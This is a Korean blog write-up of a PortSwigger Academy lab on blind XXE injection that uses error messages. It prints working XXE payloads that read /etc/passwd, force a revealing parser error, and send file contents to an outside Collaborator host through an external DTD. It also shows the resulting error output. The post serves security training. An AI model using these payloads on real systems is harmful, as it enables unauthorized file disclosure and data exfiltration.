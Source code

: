 ```yaml
---
layout: post
title: "Burp Academy-XXE 취약점: Exploiting blind XXE to retrieve data via error messages"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XXE injection]
toc: true
last_modified_at: 2024-08-06 21:00:00 +0900
---
```



# 개요
- 문제 주소: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages
- 취약점 설명: https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages
- 난이도: PRACTITIONER (중간)

# 랩 개요
- 이전 문제들과 마찬가지로 "Check stock" 기능을 통해 XML 을 삽입할 수 있다. 그러나 결과는 표시되지 않는다.  
- 랩을 풀려면 외부 DTD를 사용해서  `/etc/passwd`의 내용을 노출하는 에러를 유발시킨다. 
- DTD를 제공하기 위한 exploit서버가 주어졌다. 

```
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.
```

# 도전 

## 살펴보기 

이전 문제들과 마찬가지로 stock 체크를 하는 부분에서 XML 입력이 가능하다. 

## 취약점 설명에 있던 페이로드를 사용해서 XXE 인젝션 가능할지 테스트 
취약점 설명 페이지에 있었던 다음 페이로드를 사용해서 바로 테스트해본다. 

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

![](/images/burp-academy-xxe-6-1.png)

"Entities are not allowed for security reasons" 라는 메세지가 회신된다. Entity를 사용할 수 없다고 한다. 

## DTD를 exploit서버에 구성해서 재시도

xxe 문제 5번에서 썼던 테크닉을 써본다. 

collaborator URL을 획득하고 DTD를 구성해서 exploit서버에 저장한다. 

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://rqlgn1rkxwsqe24x7bscjua1rsxjl99y.oastify.com/?x=%file;'>">
%eval;
%exfil;
```

![](/images/burp-academy-xxe-6-2.png)


다음과 같은 파싱에러가 발생했다. 그런데 눈에 띄는 점이 하나 있다. x파라메터의 값이다. 에러 메세지에 DTD에서 지정한 file 변수의 값 (/etc/hostname의 값)이 들어가 있다!! 이 것을 활용하면 /etc/passwd의 값을 볼 수 있을 것 같다. 

```
"XML parser exited with error: org.xml.sax.SAXParseException; systemId: http://rqlgn1rkxwsqe24x7bscjua1rsxjl99y.oastify.com/?x=2dff9f769dcc; lineNumber: 1; columnNumber: 2; The markup declarations contained or pointed to by the document type declaration must be well-formed."
```

![](/images/burp-academy-xxe-6-3.png)


## /etc/passwd를 조회하도록 DTD를 수정해서 재시도 
DTD에서 /etc/hostname으로 되어 있는 부분을 /etc/passwd로 변경해서 다시 시도해본다. 

그러자 이번에는 다음과 같은 에러가 발생했다. URL에서 표현할 수 없는 캐릭터가 /etc/passwd에 있기 때문인 것으로 생각된다. 어떻게 해야할까... 

```
"XML parser exited with error: java.net.MalformedURLException: Illegal character in URL"
```

![](/images/burp-academy-xxe-6-4.png)


## 취약점 설명에 있던 페이로드를 exploit서버에 DTD로 저장한 후 시도

다시 한번 취약점 설명 페이지에서 소개된 페이로드를 살펴본다.이 페이로드는 collaborator 서버를 사용하지 않고 있다. 이하의 DTD를 exploit서버에 저장한 후에 테스트해보자. 

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

HTTP 요청시에는 다음과 같은 페이로드를 보낸다. 

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a8300690415a59982c9be9a012a003f.exploit-server.net/exploit"> %xxe;]>
```

시도해보면 에러의 내용이 응답에 포함된 것을 확인할 수 있다. 문제 풀이에 성공했다! 🍖

![](/images/burp-academy-xxe-6-5.png)


![](/images/burp-academy-xxe-6-success.png)



